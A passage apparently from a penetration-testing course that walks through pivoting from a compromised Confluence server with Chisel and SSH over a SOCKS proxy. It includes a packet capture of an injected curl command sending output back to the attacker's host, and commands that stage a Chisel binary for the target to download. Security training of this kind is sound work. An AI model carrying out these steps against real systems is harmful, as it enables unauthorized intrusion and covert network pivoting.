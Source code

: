 If it doesn't work:

On sending this new injection, we check Tcpdump output for attempted connections, and find that a required package is not installed on the Confluence server.

```
...
16:30:50.915895 IP (tos 0x0, ttl 61, id 47823, offset 0, flags [DF], proto TCP (6), length 410)
    192.168.50.63.50192 > 192.168.118.4.8080: Flags [P.], cksum 0x1535 (correct), seq 1:359, ack 1, win 502, options [nop,nop,TS val 391724691 ecr 3105669986], length 358: HTTP, length: 358
        POST / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: curl/7.68.0
        Accept: */*
        Content-Length: 204
        Content-Type: application/x-www-form-urlencoded

        /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
        0x0000:  4500 019a bacf 4000 3d06 f729 c0a8 db3f  E.....@.=..)...?
        0x0010:  c0a8 2dd4 c410 1f90 d15e 1b1b 2b88 002d  ..-......^..+..-
...
```

We can simply try an earlier version of Chisel on the server to solve this problem.

```bash
kali@kali:~$ wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
kali@kali:~$ gunzip chisel_1.8.1_linux_amd64.gz
kali@kali:~$ sudo cp ./chisel /var/www/html  
```

After repeating the process, if you think it works, you can check the status of our SOCKS proxy with ss:

```bash
ss -ntplu
```

Our SOCKS proxy port 1080 is listening on the loopback interface of our Kali machine.

Let's use this to connect to the SSH server on PGDATABASE01. In Port Redirection and SSH Tunneling, we created SOCKS proxy ports with both SSH remote and classic dynamic port forwarding, and used Proxychains to push non-SOCKS-native tools through the tunnel. But we've not yet actually run SSH itself through a SOCKS proxy.

SSH doesn't offer a generic SOCKS proxy command-line option. Instead, it offers the ProxyCommand configuration option. We can either write this into a configuration file, or pass it as part of the command line with -o.

ProxyCommand accepts a shell command that is used to open a proxy-enabled channel. The documentation suggests using the OpenBSD version of Netcat, which exposes the -X flag and can connect to a SOCKS or HTTP proxy. However, the version of Netcat that ships with Kali doesn't support proxying.

Instead, we'll use Ncat, the Netcat alternative written by the maintainers of Nmap. We can install this on Kali with sudo apt install ncat.

